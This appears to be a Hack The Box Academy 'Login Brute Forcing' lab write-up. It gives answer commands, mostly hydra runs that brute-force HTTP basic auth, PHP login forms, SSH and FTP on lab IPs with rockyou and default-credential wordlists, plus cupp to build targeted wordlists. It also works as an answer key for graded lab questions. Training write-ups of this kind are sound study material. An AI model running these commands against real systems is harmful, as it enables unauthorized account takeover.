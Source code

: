 # [HTB] Login Brute Forcing

## Default Passwords

>**Q. Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?**

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.253.106 -s 55305 http-get /
```

## Username Brute Force

>**Q. Try running the same exercise on the question from the previous section, to learn how to brute force for users.**

```bash
Hint: Use the same answer as the previous question!
```

## Login Form Attacks

>**Q. Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer.**

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 83.136.253.106 -s 55305 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

## Service Authentication Brute Forcing

>**Q. Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?**

```bash
sudo apt install cupp
```

>**Q. Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?**

```bash
cupp -i
hydra -l b.gates -P william.txt -u -f ssh://83.136.253.168:43879 -t 4
ssh b.gates@83.136.253.168 -p 43879
ls
cat flag.txt
```

```bash
ls /home
netstat -antp | grep -i list
hydra -l m.gates -P rockyou-10.txt -u -f ftp://0.0.0.0
ftp 0.0.0.0
ls
get flag.txt
exit
ls
cat flag.txt
```

## Skills Assessment - Website

>**Q. When you try to access the IP shown above, you will not have authorization to access it. Brute force the authentication and retrieve the flag.**

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.254.230 -s 42335 http-get / 
```


>**Q. Once you access the login page, you are tasked to brute force your way into this page as well. What is the flag hidden inside?**

Hint: You may reuse the username you found earlier. Make sure you got the correct fail string and parameters.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -f 83.136.254.230 -s 42335 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"
```

## Skills Assessment - Service Login

>**Q. As you now have the name of an employee, try to gather basic information about them, and generate a custom password wordlist that meets the password policy. Also use 'usernameGenerator' to generate potential usernames for the employee. Finally, try to brute force the SSH server shown above to get the flag.**

```bash

```

>**Q. Once you are in, you should find that another user exists in server. Try to brute force their login, and get their flag.**

```bash

```
